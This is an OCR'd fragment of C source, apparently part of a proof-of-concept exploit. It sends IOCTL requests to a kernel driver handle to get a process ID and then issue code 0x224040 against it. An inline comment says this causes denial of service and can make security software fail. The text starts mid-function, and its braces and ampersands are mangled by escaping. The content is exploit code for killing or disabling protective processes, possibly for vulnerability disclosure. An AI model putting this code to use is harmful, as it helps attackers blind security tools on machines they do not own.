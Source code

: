 ```
                    `}`GetPidBuffer;
                    GetPidBuffer ProcessPid = `{`0`}`;
                    if (DeviceIoControl(
                        hObjectDrv,
                        sendrequest,
                        &amp;Request,
                        8,
                        &amp;ProcessPid,
                        12,
                        &amp;BytesReturned,
                        0))
                    `{`
                        if (BytesReturned &amp;&amp; ProcessPid.Pid.LowPart &gt; 0)
                        `{`

                            printf("curent run pid:%d", ProcessPid.Pid.HighPart);
                            //If the process is not recovered, it will cause denial of service attack. For example,
                            //if it is security software, it will cause security software failure
                            sendrequest = 0x224040;

                            if (DeviceIoControl(
                                hObjectDrv,
                                sendrequest,
                                &amp;ProcessPid.Pid.HighPart,
                                8,
                                &amp;ProcessPid.Pid.HighPart,
                                8,
                                &amp;BytesReturned, 0))
                            `{`
                            `}`
                            Sleep(100);
                            BytesReturned = 0;
                        `}`
                        else
                        `{`
                            if (WaitForSingleObject((HANDLE)KeyHandle, INFINITE) == WAIT_OBJECT_0)
                            `{`

                            `}`
                        `}`
                    `}`        
                `}`

            `}`
        `}`

        CloseHandle(hObjectDrv);
        hObjectDrv = NULL;
    `}`
`}`
return 0;
`}`
```
